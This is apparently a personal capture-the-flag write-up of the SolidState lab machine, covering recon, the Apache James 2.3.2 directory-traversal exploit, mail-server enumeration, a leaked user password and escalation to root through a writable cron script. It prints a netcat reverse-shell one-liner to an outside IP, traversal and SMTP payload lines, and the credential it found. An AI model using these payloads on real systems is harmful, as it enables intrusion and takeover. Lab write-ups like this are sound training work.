 
Name: SolidState
Date:  21/11/2022
Difficulty:  Medium
Goals:  OSCP Prep
Learnt:
- Learning to email like a boomer, regaining a mixture of respect and  
- Weird Ports are sometimes the  target and normality is rabbithole
- Rick Sanchez "Measure twice, cut once" - Read twice, cut once
- Telnet `ctrl + $escapekey` - harder than vim exiting for my brain.
- Linpeas is not everything 
- 

Disclaimer I ran into the rsip protocol, the primilary exploit for this machine and walkthrough forgetting this a TJ Null box. I do not know the PrivEsc and di not read it. The challenge here would be very OSCP-esque recon or die; rerunning old recon attempts from long months past,  in the background being the other OSCP-esque methodological must for me returning to this box regardless of sort of knowing how the inital steps of this box are.  There is also a metasploit module for the intital phase of the box.

Little did I know this was going to be the equivent of Going Postal, except I just get kept in the cell till I eat the walls away with learn how to email people -  like real life. I am not an email person. Maybe one day I will be. Hopeful soon I will ajust to the discord server post covid world.

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![](ping.png)

Considering I already knew this stuff, but is not obvious to a random person trying this box. Just wait for prompts with nc. It makes no intuitive sense regardly, but these systems seem like a begone age that stil exist in the real world behind modern tech and teams.

![](waitforit.png)

Using default credentials
![](defaultcreds.png)

Public exploits avilabel for the [James 2.3.2](https://en.wikipedia.org/wiki/Apache_James) is the Java Apache Mail Enterprise Server, it manages the Apache Mailet API.
![](searchsploit.png)
I research the python3 version of the exploit that was unverified, which works, similiarly requires requires login. As all versions with cron.d wont work.

Metasploit exploit description: 
*"This module exploits a vulnerability that exists due to a lack of input validation when creating a user. Messages for a given user are stored in a directory partially defined by the username. By creating a user with a directory traversal payload as the username, commands can be written to a given directory. To use this module with the cron exploitation method, run the exploit using the given payload, host, and port. After running the exploit, the payload will be executed within 60 seconds. Due to differences in how cron may run in certain Linux operating systems such as Ubuntu, it may be preferable to set the target to Bash Completion as the cron method may not work. If the target is set to Bash completion, start a listener using the given payload, host, and port before running the exploit. After running the exploit, the payload will be executed when a user logs into the system. For this exploitation method, bash completion must be enabled to gain code execution. This exploitation method will leave an Apache James mail object artifact in the /etc/bash_completion.d directory and the malicious user account."*


The metasploit version; performs version checks, creates a user that will be receiving the payload 
```ruby
# The java Message objects for this user will now be stored in
# Either /etc/bash_completion.d or /etc/cron.d
# if it is a cron then
adduser ../../../../../../../../etc/$choice $password
# Delete mail objects containing payload from cron.d

# Then it send the payload to the 25 port
# connect to 25
ehlo admin@apache.com 
# added the extra quote to make this more readable in the line below!
mail from: <''@apache.com> 
rcpt to: ../../../../../../../../etc/cron.d # 60 secs its back
# RCPT TO command tells the SMTP mail server to who the message should be sent
data
From: admin@apache.com
```

References 
[Debug STMP connection for great description of SMTP commands that occuring exploitation of Mail servers](https://www.sparkpost.com/blog/how-to-check-an-smtp-connection-with-a-manual-telnet-session/)
[Metasploit Module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/smtp/apache_james_exec.rb)

The non metasploit route requires Python2.7 and some modifications
![](exploitmodification.png)

I misread and assume the below. The `>` is required for the addressing format.
```bash
# These line we mistaken
Changes to the `rcpt to` and `adduser` commands as well as the payload, which initially failed. I checked with metasploit the default being with cron.d. **Note I did remove the `>` in s.send() line** and retest. 
```

```bash
# One window/pane to catch the cron
nc -lvnp 110
# One window/pane for second shell
nc -lvnp 111
# Reverse shell for the cron shell to paste in to save time
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.109 111 >/tmp/g
# Copy and wait...to paset
```

which initially failed, checked with metasploit the default being with cron.d - change payload as double check, but again it failed.
![](crondnotworking.png)

Therefore we have to find another way to get ssh login to the box and this would then lead to potential lead to root on the box. Reminder, but for linearities sake will testing options, I also researched the python3 version of the exploit that was unverified, which works, just requires login. 

Background hydra
![](hydrainthebackground.png)

Recon or die and therefore testing server for memory leakage on eol version of apache
![](checkingtheapache.png)
Ran multiple times and did `-n 100`; same result each time, is it not [Optionsbleed](https://nvd.nist.gov/vuln/detail/CVE-2017-9798), just the bug. It may be [Apache bug #61207](https://bz.apache.org/bugzilla/show_bug.cgi?id=61207).

Instead of climbing down to lesser quality hour, but using ZAP as I check everything except jquery versions as xxs is not really what is required or useful foothold on box CVE-2020-11023, CVE-2020-11022, CVE-2015-9251 and CVE-2019-11358. There are no parametres. I reset the box encase of any potential I may have errors.  I [peaked at both Ivan's](https://ivanitlearning.wordpress.com/2020/08/23/hackthebox-solidstate/) - saw "reading emails" subsection title  and was it and enough. My excuse/reasoning as to why is my confusion with a similar box like this were password resets made no difference it seemed. It also seems like a really unethical thing to do if you were pentesting or redteaming... I suppose you could change it back shortly after, but still. Nevermind. I have been training myself to be more "hunt the shine things" with THM AD Red teaming stuff and playing a bit of Hacknet. I am not as fixated by constant email/ social media checking as other people seem to be. I feel that this does not deserve demotion to helped-through, yet. But that was last strike. If need it again or change my mind this is here for the record.

So I did the thing...
![](reseteveryone.png)

To make it easy for my idiot self. Then I remembered that I put this:

Took this to double check mailing addresses in exploit - metasploit does not 
![](potential.png)
...in my notes for two reason, acted on check one, but not the other. My bad. Added Email to Noting Template. To remember. Then remember that port 25 is not 110...

```
VRFY james@solid-state-security.com
VRFY john@solid-state-security.com
VRFY thomas@solid-state-security.com
VRFY mindy@solid-state-security.com
VRFY mailadmin@solid-state-security.com
# I tried 
ehlo # my ip, there ip, solid-state-security.com
# All ERR
```

https://learn.microsoft.com/en-us/exchange/mail-flow/test-smtp-telnet?view=exchserver-2019

![](cluesinthemail.png)

As not fan of emails general it is rather strange that the old versions are **this clunky**. It been almost a year since I hacked email ports.

![](poormindy.png)

`mindy : P@55W0rd1!2@`


## Exploit  & Foothold &  PrivEsc

Mindy is not powerful enough to know herself.
![](mindyisnotpowerfulenoughtoknowherself.png)

So with all my tryharding, which is positive. I did not need to edit code. I did not need to really understand the vulnerability. I enumerate and almost died trying. If my cheatsheets were up to par on POP3 this would have been a breeze. 

![1000](scriptfailed.png)

Retried and boom
![](retriedandbooom.png)

![](env.png)

We need to escape the rbash shell. We sort of escape it as much as possible with exploit or 
`ssh -t "bash --noprofile"`
![](what.png)


There is no sudo on this box. James is on the box.

Linpeas list:

- no gcc or cc or make so no:
Vulnerable to CVE-2021-4034 
Potentially Vulnerable to CVE-2022-2588
Potential pwnkit.

chmod 777 the bin directory to enumerate. 
![](chmodingthebin.png)

127.0.0.1 631

`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
/opt/tmp.py

Although I could not run pspy64 due to restricted shell this seems like a script that is scheduled with cronjob
![](tmptmp.png)

Copying a back up to /home/mindy I added a simple bash reverse shell.

![](reverseshellattempt.png)

Root
![](root.png)

